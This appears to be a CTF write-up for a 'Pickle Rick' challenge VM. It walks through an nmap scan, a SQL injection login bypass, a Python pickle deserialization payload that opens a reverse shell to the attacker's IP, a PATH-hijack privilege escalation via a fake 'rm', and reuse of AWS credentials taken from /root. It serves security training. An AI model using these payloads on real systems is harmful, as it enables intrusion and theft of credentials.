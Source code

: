 ```yaml
---
description: Yes, the icon is a cucumber
---
```


# 🥒 Pickle Rick

## Description

> Rick has turned himself into a pickle, can you find him before its too late...
>
> Download: [https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link](https://drive.google.com/file/d/1ZULGK4p7cJQHNabmDHdtki-g1xNfHu0f/view?usp=share\_link)
>
> Alternative Download Link: [https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link](https://drive.google.com/file/d/1ZTp8qBLRfjitet8nOshTiqIwWDwonCh1/view?usp=share\_link)
>
> 7z Password: \&y9PBYf8gZ^996s9

## TL;DR

* Scan victim machine with nmap to find http running on port 5000
* The website allows uploading of pickle files, upload a pickle RCE reverse shell payload
* Privesc from sudo /opt/clean\_pickle.sh, replacing PATH env to a dir containing a file named 'rm', which creates a shell as root
* Get aws creds from /root dir
* Login to aws using aws cli and list the files in the storage, flag is in the container.

## Solution

### Setup

Unzipping the 7zip file with the password given, we are returned with a `pickle-shop.ova` file which we can open as a virtual machine in VMWare.

After opening it, we start the virtual machine and we are prompted with a login screen. Since we don't know the password, we cannot login.

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption><p>Login Screen</p></figcaption></figure>

Let's treat this as a hackthebox kind of challenge. We will open an attacker vm, configure both machines to be in the same network, then nmap the victim machine to see what ports are open.

To configure both vms to be in the same network in VMWare, we have to go to the **VM tab > Settings > Network Adapter**, then select **Custom > VMnet0**. Do the same for the attacker machine.

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption><p>Network Config</p></figcaption></figure>

Now the attacker and victim machines are in the same network, we can run `ip addr` on the attacker machine to check the network we are in.

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption><p>ip address</p></figcaption></figure>

For me, my machine's ip address is `192.168.10.133` and it is in the `192.168.10.0.24` network.

To find the ip address of the victim machine, we can just do a ping sweep of the network by running `nmap -sP 192.168.10.1-255`. This command tells us which hosts are up.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>pickle-shop ip addr</p></figcaption></figure>

In my case, the victim's machine ip address is `192.168.10.142`. We now scan for open ports and their services by running `nmap -sC -sV -T4 -p- 192.168.10.142`.

<details>

<summary>nmap result</summary>

```
tarting Nmap 7.92 ( https://nmap.org ) at 2023-04-17 11:26 EDT
Nmap scan report for pickle-shop (192.168.10.142)
Host is up (0.11s latency).
Not shown: 65534 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.10.6
|     Date: Mon, 17 Apr 2023 15:28:48 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1461
|     Connection: close
|     <html>
|     <head>
|     <title>Login Page</title>
|     <style>
|     body {
|     font-family: Arial, sans-serif;
|     text-align: center;
|     font-size: 2em;
|     margin-top: 50px;
|     form {
|     display: inline-block;
|     margin-top: 50px;
|     padding: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     box-shadow: 2px 2px 5px #ccc;
|     input[type="text"],
|     input[type="password"] {
|     padding: 10px;
|     font-size: 1.2em;
|     width: 100%;
|     margin-bottom: 20px;
|     border: 1px solid #ccc;
|     border-radius: 5px;
|     input[type="submit"] {
|     padding: 10px 20px;
|     font-size: 1.2em;
|     background-color: lightblue;
|     color: white;
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.92%I=7%D=4/17%Time=643D65B0%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,664,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\x20
SF:Python/3\.10\.6\r\nDate:\x20Mon,\x2017\x20Apr\x202023\x2015:28:48\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:01461\r\nConnection:\x20close\r\n\r\n<html>\n\n<head>\n\x20\x20<title>L
SF:ogin\x20Page</title>\n\x20\x20<style>\n\x20\x20\x20\x20body\x20{\n\x20\
SF:x20\x20\x20\x20\x20font-family:\x20Arial,\x20sans-serif;\n\x20\x20\x20\
SF:x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0h1\x20{\n\x20\x20\x20\x20\x20\x20font-size:\x202em;\n\x20\x20\x20\x20\
SF:x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20form\
SF:x20{\n\x20\x20\x20\x20\x20\x20display:\x20inline-block;\n\x20\x20\x20\x
SF:20\x20\x20margin-top:\x2050px;\n\x20\x20\x20\x20\x20\x20padding:\x2020p
SF:x;\n\x20\x20\x20\x20\x20\x20border:\x201px\x20solid\x20#ccc;\n\x20\x20\
SF:x20\x20\x20\x20border-radius:\x205px;\n\x20\x20\x20\x20\x20\x20box-shad
SF:ow:\x202px\x202px\x205px\x20#ccc;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x2
SF:0input\[type=\"text\"\],\n\x20\x20\x20\x20input\[type=\"password\"\]\x2
SF:0{\n\x20\x20\x20\x20\x20\x20padding:\x2010px;\n\x20\x20\x20\x20\x20\x20
SF:font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20width:\x20100%;\n\x20\x2
SF:0\x20\x20\x20\x20margin-bottom:\x2020px;\n\x20\x20\x20\x20\x20\x20borde
SF:r:\x201px\x20solid\x20#ccc;\n\x20\x20\x20\x20\x20\x20border-radius:\x20
SF:5px;\n\x20\x20\x20\x20}\n\n\x20\x20\x20\x20input\[type=\"submit\"\]\x20
SF:{\n\x20\x20\x20\x20\x20\x20padding:\x2010px\x2020px;\n\x20\x20\x20\x20\
SF:x20\x20font-size:\x201\.2em;\n\x20\x20\x20\x20\x20\x20background-color:
SF:\x20lightblue;\n\x20\x20\x20\x20\x20\x20color:\x20white;\n\x20\x20\x20\
SF:x20\x20")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//D
SF:TD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://www
SF:\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\x20
SF:\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20con
SF:tent=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<tit
SF:le>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\x20
SF:<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n\x2
SF:0\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('RTSP
SF:/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20exp
SF:lanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20syntax\x
SF:20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n
SF:");
MAC Address: 00:0C:29:80:47:CE (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 196.93 seconds
```

</details>

The results show that http is being hosted on port `5000`. Let's visit it through a web browser.

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

We find that it is a simple login page. Looking at the source code doesn't return any useful info, so let's perform the usual ritual of trying SQL Injection.

Inputting `"` as the username returns an error message 'why u break my website smh :crying emoji:!'.

We can try the generic payload `"or"1"="1`that returns `true` for logging in, but another error message is returned 'Hacker Detected :skull: x7, mai geh siao, try harder leh'. It seems that this challenge creator is a hard sadist and included a bunch of words in his list of nono words :man\_facepalming::man\_facepalming::man\_facepalming:.

After trying different payloads, the simplest payload that bypasses the login is `"or"` for the username and password.

Now we are logged in and we can upload a pickle :cucumber:.

### Pickle RCE

We know the generic pickle insecure deserialization to RCE, so it is most likely it in this case.

I always refer to this [article](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) for python pickle RCE.

So we create our own python pickle serializer according to the article and create a payload that creates a reverse shell.

{% tabs %}
{% tab title="pickle.py" %}
```python
import base64
import codecs
import pickle

class RCE:
    def __reduce__(self):
        import os
        cmd = ("""python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.133",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'""")
        return os.system, (cmd,)

pickled = pickle.dumps(RCE())

with open('pickle','wb') as f: f.write(pickled)
```
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}

Start a netcat listener, upload the pickle file, and we have a shell!

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption><p>shell</p></figcaption></figure>

### Privesc

The first thing I tried to run is `sudo -l` to check what commands I could run with sudo privilege.

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption><p>sudo -l</p></figcaption></figure>

This states that we can run `/opt/clean_pickle.sh` with root privileges without needing a password. Let's check what is in `clean_pickle.sh`.

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption><p>clean_pickle.sh</p></figcaption></figure>

The bash script uses runs `rm` without an absolute path. What this means is that instead of running `/usr/bin/rm -r ...`, it just runs `rm -r ...`.

This is vulnerable to **Command Forgery**. We abuse this by creating our own `rm` bash script under any directory, in this case we chose the `/tmp` directory. The `rm` file should contain:

```bash
#!/bin/bash
/bin/bash
```

This is to get a shell as root when root executes this `rm` bash script.

Run `chmod 777 /tmp/rm` to make it executable.

Now we can run `sudo PATH=/tmp:$PATH /opt/clean_pickle.sh` to run `clean_pickle.sh` with the modified `PATH` environment variable to where our `rm` resides.

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption><p>privesc</p></figcaption></figure>

And now we have root!

### Pivoting to Cloud

Looking at `/root`, we see there is a `.aws` directory and a `credentials` file inside.

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption><p>aws creds</p></figcaption></figure>

We can sign in to aws cli using  this credential. I modified `~/.aws/credentials` to add the id and key (you will have to install aws cli first). You can also run `aws configure` and input the id and key appropriately.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption><p>local aws creds</p></figcaption></figure>

Now time to find where the flag actually is.

### Finding the flag

The most common enumeration method for aws cloud is to list the buckets the account have access to. We can run `aws s3api list-buckets` to list the buckets.

The aws key is now sadly revoked and invalid, so I can't show the last few steps.

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>failure</p></figcaption></figure>

The flag is in one of the buckets and you can just use aws cli to get the flag.

Unfortunately, there was no pickle rick at all :(
